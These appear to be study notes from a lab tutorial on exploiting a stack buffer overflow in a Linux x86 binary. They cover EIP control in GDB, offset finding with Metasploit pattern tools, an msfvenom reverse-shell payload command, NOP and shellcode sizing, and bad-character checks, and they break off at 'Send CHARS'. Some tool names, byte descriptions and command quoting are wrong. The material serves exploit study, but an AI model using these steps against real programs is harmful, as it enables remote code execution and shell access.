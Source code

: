## Take Control of EIP

one of the most important aspects of a stack-based buffer overflow is to get the instruction pointer (EIP) under control, so we can tell it to which address it should jump. This will make the EIP point to the address where our shellcode starts and causes the CPU to execute it

we can execute commands in GDB using python, which will serve as input

	(gdb) run $(python3 -c "print '\x55' * 1200")

inserting 1200 "U"s (hex "55") as input we can see from register information that we have overwritten the EIP, which points to the next instruction to be executed

### Determine The Offset

the offset is used to determine how many bytes are needed to overwrite the buffer and how much space we have around our shellcode

we can use the MSF to create a pattern that will help determining the offset with the script *pattern_create.rb*

	$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [length] > pattern.txt

using the created pattern in

	(gdb) run $(python -c "print '[pattern-created]'")

now getting the value from EIP with *info registers eip*

determining the offset with *pattern_create.rb*

	$ /usr/share/metasploit-framework/tools/exploit/patters_offset.rb -q [value-from-eip-register]

it will then print the exact offset

	[*] Exact match at offset 1036

now using this offset it is possible to write directly to the eip register

	 (gdb) run $(python -c "print '\x55' * 1036 + '\x73' * 4")
[the value in the eip register will be 0x73737373]


## Determine the Length for Shellcode 

now we should find out how much space we have for our shellcode to perform the action we want, it is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for hits, we will use msfvenom

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
``` 

output shows that the payload will have a size of 68 bytes, as a precaution we should try to take a larger range if the shellcode increases due to later specifications

it can be often useful to insert some **no operation instruction (NOPS)** before our shellcode begins so that it can be executed cleanly

1. We need a total of 1040 bytes to get to the EIP.
2. Here, we can use an additional 100 bytes of NOPs.
3. 150 bytes for our shellcode

>Buffer = "\\x55" \* $(1040 -100 -150 -4)$
>NOPs =  "\\x90" \* $100$
>Shellcode = "\\x44" \* $150$
>EIP = "\\x66" \* $4$

Now we can try to find out how much space we have available to insert our shellcode

```
(gdb) run $(python -c 'print' "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

#### Questions

How large can our shellcode theoretically become if we count NOPS and the shellcode size together?
	R: 250 byt

## Identification of Bad Characters

previously in UNIX-like operating systems, binaries started with two bytes containing a "magic number" that determines the file type. In the beginnning, this was used to identify object files for different platforms. Gradually this concept was transferred to other files, and now almost every file contains a magic number.

Such reserved characters also exist in applications, but they do not always occur and are not still the same. These reserved characters, also known as bad characters can vary, but often we will see characters like this:

- \\x00 - Null byte
- \\x0a - Line Feed
- \\x0d - Carriage Return
- \\xFF - Form feed

using a character list CHARS that includes hexadecimal characters from 0x00 to 0xff it is possible to find out all characters we have to avoid when generating our shellcode

### calculating CHARS length

```bash
$ echo $CHARS | sed "s/\\x/ /g" | wc -w

output:
256
```

the string is 256 bytes long. So we need to calculate our buffer again:

>Buffer = "\\x55" \* $(1040 -256 -4)$
>Chars = $CHARS [256 bytes long]
>EIP = "\\x66" \* $4$

set a breakpoint at bowfunc function so program does not crash and we can analyze the memory's content

```bash
(gdb) break bowfunc
```

### Send CHARS
